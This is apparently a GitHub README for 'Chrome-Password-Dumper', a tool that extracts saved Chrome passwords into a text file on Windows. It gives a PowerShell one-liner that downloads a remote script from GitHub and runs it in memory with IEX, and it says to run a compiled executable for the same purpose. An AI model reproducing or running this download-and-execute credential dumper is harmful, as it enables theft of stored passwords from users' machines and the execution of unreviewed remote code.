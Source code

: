 # Chrome-Password-Dumper

For Windows version simply run **chrome.exe** to dump the passwords to a text file.

For **powershell** version: > IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/roflsandwich/Chrome-Password-Dumper/master/chrome.ps1')

**Chrome must be closed before running the PoC**

* chrome.py uncompiled version

* compiled with py2exe
